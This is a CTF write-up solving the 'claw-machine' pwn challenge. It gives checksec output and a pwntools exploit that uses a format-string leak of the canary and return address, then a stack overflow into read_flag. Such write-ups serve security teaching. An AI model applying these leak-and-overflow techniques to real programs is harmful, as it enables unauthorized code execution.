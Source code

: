 # claw-machine

Claw machines have a notorious reputation for being challenging to win. 
But here's your chance to put your skills to the test and see if you can beat the odds. 
Give it a try and share your feedback with us!

## Solution

```sh
file claw_machine
# claw_machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0dcdc3f9bead6c2a31478a42c3a9e13e478a230f, not stripped

checksec --file=claw_machine
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'

readelf -e claw_machine
# entry 0xa20
```

https://tig3rpuppet.blog/2023/10/28/hack-the-boo-2023-writeups/#claw_machine

in `fb` function:
- format string vulnerability `printf`
- stack buffer overflow `read(0, feedback, 0x5e)` reads 94 bytes into a 64-byte buffer.

`read_flag` function - ret2win

PIE (Position Independent Executable) - need to leak address of `read_flag`

Stack contains return address of `fb` which is `main+53`, can calculate offset to `read_flag`

```py
# Step 1: print return address (`main+53`) and canary.
io.recvuntil(b'Enter your name: ')
io.sendline(b'%23$p.%21$p')
 
# Get the values.
io.recvuntil(b'Thank you for giving feedback ')
values = io.recvline().split(b'.')
 
addr_main_53 = int(values[0], 16)
canary = int(values[1], 16)
 
log.info(f'Addr (main+53): {hex(addr_main_53)}')
log.info(f'Canary: {hex(canary)}')
 
# Set the offset of exe.
exe.address = addr_main_53 - (exe.symbols['main'] + 53)
 
addr_read_flag = exe.symbols["read_flag"]
log.info(f'Address of read_flag: {hex(addr_read_flag)}')

# Step 2: return into `read_flag`, fixing the canary on the way.
io.sendline(b''.join([
    b'A' * offset,
    p64(canary),
    b'B' * 8,
    p64(addr_read_flag),
]))
```
